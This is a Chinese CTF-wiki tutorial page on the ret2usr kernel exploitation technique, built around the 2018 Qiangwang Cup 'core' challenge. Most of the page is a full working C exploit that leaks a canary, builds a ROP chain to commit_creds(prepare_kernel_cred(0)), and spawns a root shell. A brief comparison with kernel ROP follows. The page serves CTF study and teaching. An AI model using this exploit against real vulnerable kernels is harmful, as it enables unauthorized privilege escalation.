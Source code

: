 [EN](./ret2usr.md) | [ZH](./ret2usr-zh.md)
## ret2usr
ret2usr 攻击利用了 **用户空间的进程不能访问内核空间，但内核空间能访问用户空间** 这个特性来定向内核代码或数据流指向用户控件，以 `ring 0` 特权执行用户空间代码完成提权等操作。

### 2018 强网杯 - core
上一篇分析了使用 [kernel rop](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/kernel/kernel_rop/#kernel-rop-2018-core) 完成提权拿 shell 的步骤，这一篇分析一下使用 ret2usr 手法获取 root shell。

题目就不再分析了，直接分析 exp。

```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <string.h>
#include <stdint.h>

size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
	__asm__("mov user_cs, cs;"
			"mov user_ss, ss;"
			"mov user_sp, rsp;"
			"pushf;"
			"pop user_rflags;"
			);
	puts("[*]status has been saved.");
}


void get_shell(void){
    system("/bin/sh");
}

size_t commit_creds = 0, prepare_kernel_cred = 0;
size_t raw_vmlinux_base = 0xffffffff81000000;
size_t vmlinux_base = 0;
size_t find_symbols()
{
	FILE* kallsyms_fd = fopen("/tmp/kallsyms", "r");
	/* FILE* kallsyms_fd = fopen("./test_kallsyms", "r"); */

	if(kallsyms_fd < 0)
	{
		puts("[*]open kallsyms error!");
		exit(0);
	}

	char buf[0x30] = {0};
	while(fgets(buf, 0x30, kallsyms_fd))
	{
		if(commit_creds & prepare_kernel_cred)
			return 0;

		if(strstr(buf, "commit_creds") && !commit_creds)
		{
			/* puts(buf); */
			char hex[20] = {0};
			strncpy(hex, buf, 16);
			/* printf("hex: %s\n", hex); */
			sscanf(hex, "%llx", &commit_creds);
			printf("commit_creds addr: %p\n", commit_creds);
			vmlinux_base = commit_creds - 0x9c8e0;
			printf("vmlinux_base addr: %p\n", vmlinux_base);
		}

		if(strstr(buf, "prepare_kernel_cred") && !prepare_kernel_cred)
		{
			/* puts(buf); */
			char hex[20] = {0};
			strncpy(hex, buf, 16);
			sscanf(hex, "%llx", &prepare_kernel_cred);
			printf("prepare_kernel_cred addr: %p\n", prepare_kernel_cred);
			vmlinux_base = prepare_kernel_cred - 0x9cce0;
			/* printf("vmlinux_base addr: %p\n", vmlinux_base); */
		}
	}

	if(!(prepare_kernel_cred & commit_creds))
	{
		puts("[*]Error!");
		exit(0);
	}

}


void get_root()
{
	char* (*pkc)(int) = prepare_kernel_cred;
	void (*cc)(char*) = commit_creds;
	(*cc)((*pkc)(0));
	/* puts("[*] root now."); */
}

void set_off(int fd, long long idx)
{
	printf("[*]set off to %ld\n", idx);
	ioctl(fd, 0x6677889C, idx);
}

void core_read(int fd, char *buf)
{
	puts("[*]read to buf.");
	ioctl(fd, 0x6677889B, buf);

}

void core_copy_func(int fd, long long size)
{
	printf("[*]copy from user with size: %ld\n", size);
	ioctl(fd, 0x6677889A, size);
}


int main(void)
{
	find_symbols();
	size_t offset = vmlinux_base - raw_vmlinux_base;
	save_status();

	int fd = open("/proc/core",O_RDWR);
	set_off(fd, 0x40);
	size_t buf[0x40/8];
	core_read(fd, buf);
	size_t canary = buf[0];
	printf("[*]canary : %p\n", canary);

	size_t rop[0x30] = {0};
	rop[8] = canary ; 
	rop[10] = (size_t)get_root;
	rop[11] = 0xffffffff81a012da + offset; // swapgs; popfq; ret
	rop[12] = 0;
	rop[13] = 0xffffffff81050ac2 + offset; // iretq; ret;
	rop[14] = (size_t)get_shell; 
	rop[15] = user_cs;
	rop[16] = user_rflags;
	rop[17] = user_sp;
	rop[18] = user_ss;

	puts("[*] DEBUG: ");
	getchar();
	write(fd, rop, 0x30 * 8);
	core_copy_func(fd, 0xffffffffffff0000 | (0x100));
}
```
比较一下和 [kernel rop](https://github.com/bash-c/pwn_repo/blob/master/QWB2018_core/rop.c) 做法的异同。

1. 通过读取 `/tmp/kallsyms` 获取 `commit_creds` 和 `prepare_kernel_cred` 的方法相同，同时根据这些偏移能确定 gadget 的地址。
2. leak canary 的方法也相同，通过控制全局变量 `off` 读出 canary。
3. 与 kernel rop 做法不同的是 rop 链的构造
	1. kernel rop 通过 内核空间的 rop 链达到执行 `commit_creds(prepare_kernel_cred(0))` 以提权目的，之后通过 `swapgs; iretq` 等返回到用户态，执行用户空间的 `system("/bin/sh")` 获取 shell
	2. ret2usr 做法中，直接返回到用户空间构造的 `commit_creds(prepare_kernel_cred(0))` （通过函数指针实现）来提权，虽然这两个函数位于内核空间，但此时我们是 `ring 0` 特权，因此可以正常运行。之后也是通过 `swapgs; iretq` 返回到用户态来执行用户空间的 `system("/bin/sh")`

从这两种做法的比较可以体会出之所以要 `ret2usr`，是因为一般情况下在用户空间构造特定目的的代码要比在内核空间简单得多。


